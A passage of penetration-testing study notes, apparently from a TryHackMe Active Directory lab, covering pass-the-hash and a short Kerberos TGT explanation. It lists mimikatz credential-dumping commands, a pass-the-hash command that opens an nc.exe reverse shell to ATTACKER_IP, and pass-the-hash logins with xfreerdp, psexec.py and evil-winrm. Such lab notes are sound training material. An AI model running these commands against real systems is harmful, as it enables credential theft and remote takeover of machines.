 ```bash
Extract local users on machine
mimikatz # privilege::debug
mimikatz # token:: elevate
mimikatz # lsadump::sam

Extract local & domain recently logged on
mimikatz # privilege::debug
mimikatz # token::elevate
mimikatz # sekurlsa::msv

PtH
mimikatz # token::revert # because trying to PtH w/ elevated wouldn't work
mimikatz # sekurlsa::pth /user:bob.jenkins /domain:za.tryhackme.com /ntlm:6b4a57f67805a663c818106dc0648484 /run:"c:\tools\nc.exe -e cmd.exe ATTACKER_IP 5555" 
Equiv of runas /netonly but with hash instead of pass
Whoami will show OG user before PtH, but commands will use creds injected w/ PtH
```

#### Pass-the-Hash Tools
```bash
RDP Pass-the-Hash
xfreerdp /v:VICTIM_IP /u:DOMAIN\\MyUser /pth:NTLM_HASH

PsExec (only linux version) Pass-the-Hash
psexec.py -hashes NTLM_HASH DOMAIN/MyUser@VICTIM_IP

WinRM Pass-the-Hash
evil-winrm -i VICTIM_IP -u MyUser -H NTLM_HASH
```
#### Kerberos Auth

Client sends timestamp enc w/ key derived from password (alg to derive can be DES (disabled by default on current Windows), RC4, AES128, AES256, depending on installed win version and kerb config.) to KDC
KDC sends back TGT, which allows client to req tickets to services w/o giving that service their creds, alongside a Session Key
* TGT enc using krbtgt hash, encrypted TGT includes copy of session key, KDC doesn't need to store session key as it can decrypt TGT if needed

![Kerberos TGT Process](img/blog/kerb-tgt-process.png)
